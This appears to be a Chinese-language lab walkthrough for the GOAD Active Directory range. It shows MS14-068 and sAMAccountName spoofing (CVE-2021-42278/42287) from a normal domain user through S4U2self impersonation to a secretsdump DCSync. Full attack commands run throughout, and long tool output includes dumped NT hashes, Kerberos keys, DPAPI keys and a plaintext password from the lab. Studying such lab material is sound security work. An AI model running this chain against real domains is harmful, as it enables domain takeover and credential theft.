





# GOAD 使用用户权限来渗透

## MS14-068

### MS14-068 简要概述
>
> MS14-068是密钥分发中心 (KDC) 服务中的 Windows，漏洞它允许经过身份验证的用户在其 Kerberos 票证 (TGT) 中插入任意 PAC（代表所有用户权限的结构）
>
> 在Windows域中，它允许特权升级（通常是从普通用户到域/企业管理员）
>
> KDC服务允许使用没有密钥的算法（如MD4、MD5、SHA1或CRC32），这意味着任何用户都可以在不知道任何秘密密钥的情况下伪造一个PAC，并要求KDC将其包含在一个票据中
>
>所有没有KB3011780补丁的 DC 都容易受到攻击（版本低于Windows Server 2012 R2 max）
>
### MS14-068 漏洞分析

1. （AS-REQ）用户向KDC进行身份验证，请求一个没有PAC的TGT
2. （AS-REP）KDC返回的TGT不携带PAC
3. （PAC TIME）用户创建一个带有任意数据的PAC，并使用没有密钥的算法（这里使用MD5）对其进行"签名"
4. （TGS-REQ）用户发送TGS-REQ中伪造的PAC不是在TGT中，而是在req-boby的authorization_data参数中
5. （TGS-REP）KDC效验TGT和PAC，返回最高权限ST（类似于最高权限的TGT）

### MS14-068 攻击实践

#### PyKEK

```bash
# with a plaintext password
ms14-068.py -u 'BASICUSER'@'DOMAIN_FQDN' -p 'PASSWORD' -s 'BASICUSER_SID' -d 'DOMAIN_CONTROLLER'

# with pass-the-hash
ms14-068.py -u 'BASICUSER'@'DOMAIN_FQDN' --rc4 'NThash' -s 'BASICUSER_SID' -d 'DOMAIN_CONTROLLER'
```

```bash
getST.py -k -no-pass -spn 'any_valid_spn' $DOMAIN_FQDN/$USER
```

#### Impacket (goldenPac.py)

```bash
goldenPac.py $DOMAIN_FQDN/$USER:$PASSWORD@$DC_FQDN -dc-ip $DC_IP
```

#### Metasploit Framework

```bash
msf6 > use admin/kerberos/ms14_068_kerberos_checksum
```

参考链接：

<https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/ms14-068>
<https://github.com/gentilkiwi/kekeo/wiki/ms14068>

## sAMAccountName spoofing

### CVE-2021-42278 简要概述

>计算机账户的名称（即sAMAccountName属性）应以$结尾，但之前没有验证过程来确保这一点，结合CVE-2021-42287的滥用，攻击者可以冒充域控制器账户

### CVE-2021-42287 简要概述

>当请求服务票证时，需要先提供 TGT。当 KDC 找不到所请求的服务票证时，KDC 会自动再次搜索，并在末尾加上 $ 符号。发生的情况是：如果为 bob 获取了 TGT，并删除了 bob 用户，那么使用该 TGT 向自己请求另一个用户的服务票证 (S4U2self) 将导致 KDC 在 AD 中查找 bob$。如果域控制器帐户 bob$ 存在，那么 bob (用户) 刚刚获取了 bob$ (域控制器帐户) 的服务票证，就像任何其他用户一样。
>
>具体情况是，如果为bob获取了一个TGT，并且bob用户被删除了，使用该TGT请求将另一个用户的服务票据（S4U2self）时，KDC会在AD中寻找bob$
>
>如果域控制器账户bob\$存在，那么bob（用户）就获得了bob$（域控制器账户）的服务票据

### sAMAccountName spoofing 原理分析

#### 攻击要求

能够编辑机器账户的sAMAccountName和servicePrincipalName属性是攻击链的最低要求，最简单的方法是域用户利用MachineAccountQuota域级属性创建一个机器账户，或者你的获取的域用户具备能修改域内机器属性的权限（注：sAMAccountName属性只有默认的域管理员和将机器加入域的用户具备，机器账户无法修改）

1. 利用域用户身份创建一个机器账户
2. 清楚机器账户的SPN
3. 通过ldap修改机器账户的sAMAccountName属性为域控，不要添加"$"

4. （AS-REQ）分析AS-REQ阶段数据包

    * as-req部分：
        * PVNO：表示的是Kerberos协议的版本，这里代表使用Kerberos V5
        * msg-type：消息类型
        * padata：Pre-authentication Data，预身份认证，是 Kerberos V5 协议的扩展点。通过在 AS-REQ 和 AS-REP 消息的 padata 字段中提供一个或多个预认证消息来执行预认证。
        * PA-DATA PA-ENC-TIMESTAMP：使用用户hash加密的时间戳，AS收到消息后使用对应hash解密，时间戳在规定范围即认证通过；域内设置"Do not require Kerberos preauthentication"，DC不会有Pre-authentication，这里可能出现的安全问题是AS-REP Roasting。
        * PA-DATA PA-PAC-REQUEST：Privilege Attribute Certificate，用于验证用户是否有权限访问某服务，这里的include-pac 参数为True，说明申请的TGT是包含PAC的
    * as-boby部分：
        * kdc-options：请求生成票据的标志位
        * cname：进行身份验证的账户名，这里是我们修改后的,为winterfell
        * sname：被请求服务的名字
        * etype：加密类型
5. （AS-REP）分析AS-REP阶段的数据包，此阶段一切正常

    * ticket->enc-part 加密部分
        * cname：进行身份验证的账户名，这里是我们修改后的,为winterfell
        * authorization-data：包含客户端的身份权限信息，也就是包含在PAC当中

    * ticket->enc-part->pac 加密部分
        * Acct Name：对应的值是用户sAMAccountName
        * Group RID：对应组的RID，此处为正常RID（Domain Computers 515）修改此处将会导致提权，例如MS14-068
6. 这时候再改回机器账户的sAMAccountName属性

7. （TGS-REQ）查看TGS-REQ的数据包

    * PADATA->PA-TGS-REQ->ap-req->ticket： 与AS-REP获取的TGT一致
    * PA-TGS-REQ->ap-req->authenticator： 通过Logon Session Key 加密的时间戳，保证会话安全
    * PADATA->PA-FOR-USER：启用了S4u2Proxy，用户代表任意用户访问自身服务
    * PADATA->PA-FOR-USER->name：表示要模拟的用户，这里为administrator
    * sname: 代表请求服务名称，这里我自身winterfell

8. （TGS-REP）查看TGS-REP的数据包，可以发现PAC重新生成了，因为KDC寻找不到saMAccountName值为winterfell（被删除了），但是能找到winterfell$(DC)，所以重新生成了高身份的PAC

      * 重点看ST中的PAC部分：
          * Acct Name：对应的值为administrator
          * Group RID：对应的组已经变成了513（域用户组）

### sAMAccountName spoofing 攻击实践

我也是archlinux和exegol的粉丝，我也将尝试linux方式

* 使用cme模块检查域用户创建机器账户配额

```bash
cme ldap winterfell.north.sevenkingdoms.local -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M MAQ
```

```bash
[*] Creating missing folder logs
[*] Creating missing folder modules
[*] Creating missing folder protocols
[*] Creating missing folder workspaces
[*] Creating missing folder obfuscated_scripts
[*] Creating missing folder screenshots
SMB         winterfell.north.sevenkingdoms.local 445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
LDAP        winterfell.north.sevenkingdoms.local 389    WINTERFELL       [+] north.sevenkingdoms.local\jon.snow:iknownothing 
MAQ         winterfell.north.sevenkingdoms.local 389    WINTERFELL       [*] Getting the MachineAccountQuota
MAQ         winterfell.north.sevenkingdoms.local 389    WINTERFELL       MachineAccountQuota: 10
```

* 添加新计算机

```bash
addcomputer.py -computer-name 'nopac1$' -computer-pass 'ComputerPassword' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/jon.snow:iknownothing'
```

* -domain-netbios ： 域 NetBIOS 名称（如果 DC 具有多个域，则为必需）

```bash
Impacket for Exegol - v0.10.1.dev1+20230719.222135.7a0ec36 - Copyright 2022 Fortra - forked by ThePorgs

[*] Successfully added machine account nopac1$ with password ComputerPassword.
```

* 清除我们新计算机的 SPN

```bash
addspn.py --clear -t 'nopac1$' -u 'north.sevenkingdoms.local\jon.snow' -p 'iknownothing' 'winterfell.north.sevenkingdoms.local'
```

```bash
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] Printing object before clearing
DN: CN=nopac1,CN=Computers,DC=north,DC=sevenkingdoms,DC=local - STATUS: Read - READ TIME: 2023-08-09T03:05:55.055263
    sAMAccountName: nopac1$

[+] SPN Modified successfully
```

* 重命名计算机（计算机 -> DC）

```bash
renameMachine.py -current-name 'nopac1$' -new-name 'winterfell' -dc-ip 'winterfell.north.sevenkingdoms.local' north.sevenkingdoms.local/jon.snow:iknownothing
```

```bash
Impacket for Exegol - v0.10.1.dev1+20230719.222135.7a0ec36 - Copyright 2022 Fortra - forked by ThePorgs

[*] Modifying attribute (sAMAccountName) of object (CN=nopac1,CN=Computers,DC=north,DC=sevenkingdoms,DC=local): (nopac1$) -> (winterfell)
[*] New sAMAccountName does not end with '$' (attempting CVE-2021-42278)
[-] Server probably patched against CVE-2021-42278
```

> 在执行renameMachine脚本会有报错<https://github.com/Ridter/nopac1/issues/18>

* 获取 TGT

```bash
impacket-getTGT -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell':'ComputerPassword' 
```

* 恢复计算机名

```bash
renameMachine.py -current-name 'winterfell' -new-name 'pac1$' north.sevenkingdoms.local/jon.snow:iknownothing
```

```bash
Impacket for Exegol - v0.10.1.dev1+20230719.222135.7a0ec36 - Copyright 2022 Fortra - forked by ThePorgs

[*] Modifying attribute (sAMAccountName) of object (CN=nopac1,CN=Computers,DC=north,DC=sevenkingdoms,DC=local): (winterfell) -> (pac1$)
[*] Target object modified successfully!
```

* 利用之前获得的TGT票据，通过S4U2self协议向DC请求ST

>S4U2Self: 服务A通过S4U2Self协议，可以从域服务器获取账号B访问应用服务器A的TGS票据，就像账号B主动从域服务器获取一个访问服务A的TGS票据一样。可以理解为通过该协议，可以获取域内任意账号访问服务A的TGS票据，过程中不需要账号B认证到域

```bash
getST.py -self -impersonate 'administrator' -altservice 'CIFS/winterfell.north.sevenkingdoms.local' -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell' -debug
```

```bash
Impacket for Exegol - v0.10.1.dev1+20230719.222135.7a0ec36 - Copyright 2022 Fortra - forked by ThePorgs

[+] Impacket Library Installation Path: /root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket
[+] Using Kerberos Cache: winterfell.ccache
[+] Returning cached credential for KRBTGT/NORTH.SEVENKINGDOMS.LOCAL@NORTH.SEVENKINGDOMS.LOCAL
[+] Using TGT from cache
[+] Username retrieved from CCache: winterfell
[*] Impersonating administrator
[+] AUTHENTICATOR
Authenticator:
 authenticator-vno=5
 crealm=NORTH.SEVENKINGDOMS.LOCAL
 cname=PrincipalName:
  name-type=1
  name-string=SequenceOf:
   winterfell

 cusec=642109
 ctime=20230811003949Z


[+] S4UByteArray
 0000   01 00 00 00 61 64 6D 69  6E 69 73 74 72 61 74 6F   ....administrato
 0010   72 6E 6F 72 74 68 2E 73  65 76 65 6E 6B 69 6E 67   rnorth.sevenking
 0020   64 6F 6D 73 2E 6C 6F 63  61 6C 4B 65 72 62 65 72   doms.localKerber
 0030   6F 73                                              os
[+] CheckSum
 0000   57 69 C0 3D AC 65 80 8F  64 08 2C F3 19 5D 80 5C   Wi.=.e..d.,..].\
[+] PA_FOR_USER_ENC
PA_FOR_USER_ENC:
 userName=PrincipalName:
  name-type=1
  name-string=SequenceOf:
   administrator

 userRealm=north.sevenkingdoms.local
 cksum=Checksum:
  cksumtype=-138
  checksum=0x5769c03dac65808f64082cf3195d805c

 auth-package=Kerberos

[+] Final TGS
TGS_REQ:
 pvno=5
 msg-type=12
 padata=SequenceOf:
  PA_DATA:
   padata-type=1
   padata-value=0x6e82051a30820516a003020105a10302010ea20703050000000000a382047c6182047830820474a003020105a11b1b194e4f5254482e534556454e4b494e47444f4d532e4c4f43414ca22e302ca003020101a12530231b066b72627467741b194e4f5254482e534556454e4b494e47444f4d532e4c4f43414ca382041e3082041aa003020112a103020102a282040c04820408a4711089bac31c641009ad79951b528942e22fe6dd80b73f623d061985c4f8ebacb90171a167362b7a390eabba2455f8a92e36e0aee01a81ec52f2668c025b7ce6cd611d6ac7351d59772547cbb1c02b7da6fb8a168337b0e894cd333a29b73fb3909193f65099b420806d691b5128f3d3978733cf762d2ac7018f96351843e485f00e2bca044a75d855be36fdf836039ba9d9c579c8a7c8475c4398bdf84b3d086103344bfffa51b052ec637857b4be6617b3e266cb321a81bc0407368dba438895d950133cada76277b7509a0376e289838648ea738e133b1bb57bbf0abe084505b066aa94eb3c193d060403afca4b4c732bf4e97f583bfc291c82a720a65745c3b8d9cf8210bc3455b66ffd3d7a7bd1892b440a76d5b833fa7c1d94b844a827bee3e17397aa3eed594c83a3406f6664a9b5fcf81f1efe7d8875cee679e305cdad6b423f3770ce87eae060994c82b1b78747355baf85cd26508445549ea7396d1b9105d79ba642bfdc004ad42ee685b5b577a5bc70b9bbe87e5f7572a29f9a75842663f26821418278928d4baed4010a055b008f209374dc23fbc18e0dbb171a2f30fe8913c3f7ec7b632ff8b0cf5d0c2d3d2db301aef3ed9ab559e67b19c7c63b5b4effc6bc65d3106a5dc7990b2330d1c3b062e73baafc2a44f361ee50282816dbe55e64011013ac456ccbaaa9252c80f2641f7e71202ff79a15c9d91313104a3f683e8ef7e4e3032cdd1451a9b442647d6acb5ed27bc6990dd618df3218da42e58fb82fc80f11bdc1297fefd187450647f5a8bdb4c95b6aae6a5339ef4e65793dc77f86e4f99da28ad4b2a0d6f300d6f376ccb2b6cce597eb729ccaa7b36c906523e23dc455a6e334ca1e38a15e91a6aa2603f19e0166be6af2e7ad112be82c3973e5cfeeafd5a230559b314d4435443cb2253d90b8b86cb3f93274c403f1ca90c0a6b990ecaa9d7f18423ae1f3ea3e0b3effe862e86b5ae85c20d9641bafd87278e09b5a21edbeeeac04887863cef3f20b3faa64659fa44ed302c09684a3f7be229c29fed7104646a7d3c1fccb56ee42de9dfed42769628817326f523c7109548a269b679e4b3608e9958c766a3477bbcadd84151569c4118b4c52ea1f3dba1c0eb624deaff788c9902e810db91befcf6887604b5a833b48b538254a7c7dad69ee16481d17f132fbcf44b0dbe70152d3922e5b3f53ffb50564c0e115bd343c6c776b6089be224ea7e049da49e9113abca706dbd46ac102a81f5632b462f8d64271d6e6034b8e656a4cd4d5132d65e62c7ea2b1b63d22ce08c4afe5324a1832903426fab45f4f98ee4e308a74765b48f638dde5dc3afe5fc9a5b116ecd835e50ef281db9fc21766c0f74dbdf8d2d2fc9e948e4f2d29eaf6a305ff6587ea893fa4d37f69ad2866e70e20b3826458540196d5fba826675a9f4ab914b28dccafbc0edf4aa91f79a48180307ea003020112a277047522911852acf25253c3ae26708420185c3a3bf4b960a48fa7889966569e814fa8b8f9e25508c2fa047c6f2f958a27c30faf1ae11e7bf7e068a07c28627b3080cef6bd3c2013b8677660618595fa2ec4ca24b03d78625b40f0718110c8c3a346dee8f2c7d22838703f196531ace6dd3a1880897368b7
  PA_DATA:
   padata-type=129
   padata-value=0x3063a01a3018a003020101a111300f1b0d61646d696e6973747261746f72a11b1b196e6f7274682e736576656e6b696e67646f6d732e6c6f63616ca21c301aa0040202ff76a11204105769c03dac65808f64082cf3195d805ca30a1b084b65726265726f73

 req-body=KDC_REQ_BODY:
  kdc-options=1082195968
  realm=NORTH.SEVENKINGDOMS.LOCAL
  sname=PrincipalName:
   name-type=0
   name-string=SequenceOf:
    winterfell

  till=20230812003949Z
  nonce=1267852748
  etype=SequenceOf:
   18   23


[*] Requesting S4U2self
[+] Trying to connect to KDC at winterfell.north.sevenkingdoms.local:88
[+] Original sname is not formatted as usual (i.e. CLASS/HOSTNAME), automatically filling the substitution service will fail
[+] Original sname is: winterfell
[+] No service realm in new SPN, using the current one (NORTH.SEVENKINGDOMS.LOCAL)
[*] Changing service from winterfell@NORTH.SEVENKINGDOMS.LOCAL to CIFS/winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL
[*] Saving ticket in administrator@CIFS_winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache
```

* 提供ST进行DCSync（卷影拷贝服务 读取ntds.dit）

```bash
export KRB5CCNAME=administrator@CIFS_winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache
impacket-secretsdump -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' @'winterfell.north.sevenkingdoms.local'
```

```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xae5564d04e225ccba0d2643161c48b10
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
NORTH\WINTERFELL$:plain_password_hex:d452d7acbee89340ffd08a60348d69f58cf4183c4cf361f8dfca34938ebb435e77372871f8268d42ad52cd99492e8b7a73e131d386300378032c818fc3a48089ff79a5fd4a3fd34ae3bf2cd15427b853bef44a2e8e9b2bcf9ceabba4f99d9da6f2b5e2e9558517c5bd6a0ab0a1c42ad05a084b97fee2f3efb40b484a68c242dfed0f174bfca7859e888bc99915fc126489cafd27fcea31987b9edae98a8d7c2748d3105e09e75ae1807da54eb2932ba1f6fe74304ee811d274a8d64f3e61e1b3ca03956f334ceae55b551fb1807d03700d9165818942726d1477a8478a797ca1b29f5ebfccdea59253878e7ad2d3e26a
NORTH\WINTERFELL$:aad3b435b51404eeaad3b435b51404ee:aa685d65871bfdf122009745b03f8e01:::
[*] DefaultPassword 
NORTH\robb.stark:sexywolfy
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6c83b7e5a495bf35a524aeff74c92593143c17a0
dpapi_userkey:0x334f998763f721c1dd63a9ebde90054970e54c06
[*] NL$KM 
 0000   22 34 01 76 01 70 30 93  88 A7 6B B2 87 43 59 69   "4.v.p0...k..CYi
 0010   0E 41 BD 22 0A 0C CC 23  3A 5B B6 74 CB 90 D6 35   .A."...#:[.t...5
 0020   14 CA D8 45 4A F0 DB 72  D5 CF 3B A1 ED 7F 3A 98   ...EJ..r..;...:.
 0030   CD 4D D6 36 6A 35 24 2D  A0 EB 0F 8E 3F 52 81 C9   .M.6j5$-....?R..
NL$KM:223401760170309388a76bb2874359690e41bd220a0ccc233a5bb674cb90d63514cad8454af0db72d5cf3ba1ed7f3a98cd4dd6366a35242da0eb0f8e3f5281c9
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8bf38852ab8d3a887ae867500c9a48c5:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
arya.stark:1109:aad3b435b51404eeaad3b435b51404ee:4f622f4cd4284a887228940e2ff4e709:::
eddard.stark:1110:aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8:::
catelyn.stark:1111:aad3b435b51404eeaad3b435b51404ee:cba36eccfd9d949c73bc73715364aff5:::
robb.stark:1112:aad3b435b51404eeaad3b435b51404ee:831486ac7f26860c9e2f51ac91e1a07a:::
sansa.stark:1113:aad3b435b51404eeaad3b435b51404ee:2c643546d00054420505a2bf86d77c47:::
brandon.stark:1114:aad3b435b51404eeaad3b435b51404ee:84bbaa1c58b7f69d2192560a3f932129:::
rickon.stark:1115:aad3b435b51404eeaad3b435b51404ee:7978dc8a66d8e480d9a86041f8409560:::
hodor:1116:aad3b435b51404eeaad3b435b51404ee:337d2667505c203904bd899c6c95525e:::
jon.snow:1117:aad3b435b51404eeaad3b435b51404ee:b8d76e56e9dac90539aff05e3ccb1755:::
samwell.tarly:1118:aad3b435b51404eeaad3b435b51404ee:f5db9e027ef824d029262068ac826843:::
jeor.mormont:1119:aad3b435b51404eeaad3b435b51404ee:6dccf1c567c56a40e56691a723a49664:::
sql_svc:1120:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
WINTERFELL$:1001:aad3b435b51404eeaad3b435b51404ee:aa685d65871bfdf122009745b03f8e01:::
CASTELBLACK$:1104:aad3b435b51404eeaad3b435b51404ee:723026eda8195b4bd9e82caef809c40f:::
pac1$:1122:aad3b435b51404eeaad3b435b51404ee:0eddedc35eb7b7ecde0c9f0564e54c83:::
SEVENKINGDOMS$:1121:aad3b435b51404eeaad3b435b51404ee:1b89cf55c349b296a8fc34f95d7580e0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:e7aa0f8a649aa96fab5ed9e65438392bfc549cb2695ac4237e97996823619972
Administrator:aes128-cts-hmac-sha1-96:bb7b6aed58a7a395e0e674ac76c28aa0
Administrator:des-cbc-md5:fe58cdcd13a43243
krbtgt:aes256-cts-hmac-sha1-96:82b8cbbbe398df35611657a4fab06f32fedc6a9c0036ae6e0988193de5c30a8c
krbtgt:aes128-cts-hmac-sha1-96:d4a753716a2747b19c1eb09a9e0d4a97
krbtgt:des-cbc-md5:708ad92523fdf7b6
vagrant:aes256-cts-hmac-sha1-96:aa97635c942315178db04791ffa240411c36963b5a5e775e785c6bd21dd11c24
vagrant:aes128-cts-hmac-sha1-96:0d7c6160ffb016857b9af96c44110ab1
vagrant:des-cbc-md5:16dc9e8ad3dfc47f
arya.stark:aes256-cts-hmac-sha1-96:2001e8fb3da02f3be6945b4cce16e6abdd304974615d6feca7d135d4009d4f7d
arya.stark:aes128-cts-hmac-sha1-96:8477cba28e7d7cfe5338d172a23d74df
arya.stark:des-cbc-md5:13525243d6643285
eddard.stark:aes256-cts-hmac-sha1-96:f6b4d01107eb34c0ecb5f07d804fa9959dce6643f8e4688df17623b847ec7fc4
eddard.stark:aes128-cts-hmac-sha1-96:5f9b06a24b90862367ec221a11f92203
eddard.stark:des-cbc-md5:8067f7abecc7d346
catelyn.stark:aes256-cts-hmac-sha1-96:c8302e270b04252251de40b2bd5fba37395b55d5ed9ac95e03213dc739827283
catelyn.stark:aes128-cts-hmac-sha1-96:50ce7e2ad069fa40fb2bc7f5f9643d93
catelyn.stark:des-cbc-md5:6b314670a2f84cfb
robb.stark:aes256-cts-hmac-sha1-96:d7df5069178bbc93fdc34bbbcb8e374fd75c44d6ce51000f24688925cc4d9c2a
robb.stark:aes128-cts-hmac-sha1-96:b2965905e68356d63fedd9904357cc42
robb.stark:des-cbc-md5:c4b62c797f5dd01f
sansa.stark:aes256-cts-hmac-sha1-96:cd2460a78e8993442498d3f242a88ae110ec6556e40c8add6aab12cfb44b3fa1
sansa.stark:aes128-cts-hmac-sha1-96:18b9d10bd18d1956ba73c14426ec519f
sansa.stark:des-cbc-md5:e66445757c31c176
brandon.stark:aes256-cts-hmac-sha1-96:6dd181186b68898376d3236662f8aeb8fa68e4b5880744034d293d18b6753b10
brandon.stark:aes128-cts-hmac-sha1-96:9de3581a163bd056073b71ab23142d73
brandon.stark:des-cbc-md5:76e61fda8a4f5245
rickon.stark:aes256-cts-hmac-sha1-96:79ffda34e5b23584b3bd67c887629815bb9ab8a1952ae9fda15511996587dcda
rickon.stark:aes128-cts-hmac-sha1-96:d4a0669b1eff6caa42f2632ebca8cd8d
rickon.stark:des-cbc-md5:b9ec3b8f2fd9d98a
hodor:aes256-cts-hmac-sha1-96:a33579ec769f3d6477a98e72102a7f8964f09a745c1191a705d8e1c3ab6e4287
hodor:aes128-cts-hmac-sha1-96:929126dcca8c698230b5787e8f5a5b60
hodor:des-cbc-md5:d5764373f2545dfd
jon.snow:aes256-cts-hmac-sha1-96:5a1bc13364e758131f87a1f37d2f1b1fa8aa7a4be10e3fe5a69e80a5c4c408fb
jon.snow:aes128-cts-hmac-sha1-96:d8bc99ccfebe2d6e97d15f147aa50e8b
jon.snow:des-cbc-md5:084358ceb3290d7c
samwell.tarly:aes256-cts-hmac-sha1-96:b66738c4d2391b0602871d0a5cd1f9add8ff6b91dcbb7bc325dc76986496c605
samwell.tarly:aes128-cts-hmac-sha1-96:3943b4ac630b0294d5a4e8b940101fae
samwell.tarly:des-cbc-md5:5efed0e0a45dd951
jeor.mormont:aes256-cts-hmac-sha1-96:be10f893afa35457fcf61ecc40dc032399b7aee77c87bb71dd2fe91411d2bd50
jeor.mormont:aes128-cts-hmac-sha1-96:1b0a98958e19d6092c8e8dc1d25c788b
jeor.mormont:des-cbc-md5:1a68641a3e9bb6ea
sql_svc:aes256-cts-hmac-sha1-96:24d57467625d5510d6acfddf776264db60a40c934fcf518eacd7916936b1d6af
sql_svc:aes128-cts-hmac-sha1-96:01290f5b76c04e39fb2cb58330a22029
sql_svc:des-cbc-md5:8645d5cd402f16c7
WINTERFELL$:aes256-cts-hmac-sha1-96:c0880c4af7d14d09402a8138bb48d1b526e1fa5f5fc4ce4f9fe89ef2422eb304
WINTERFELL$:aes128-cts-hmac-sha1-96:23b19c152d6b8c3aa275b16b082675ed
WINTERFELL$:des-cbc-md5:7ff72c75d5d683b5
CASTELBLACK$:aes256-cts-hmac-sha1-96:ac20a1c7051889152b6811094c6e52bd854d347a0e9b52ad63b6ea98794b1423
CASTELBLACK$:aes128-cts-hmac-sha1-96:c1fe9a27470b9bd8e0e9537e4f63b3ae
CASTELBLACK$:des-cbc-md5:fec498bf3eea5ef8
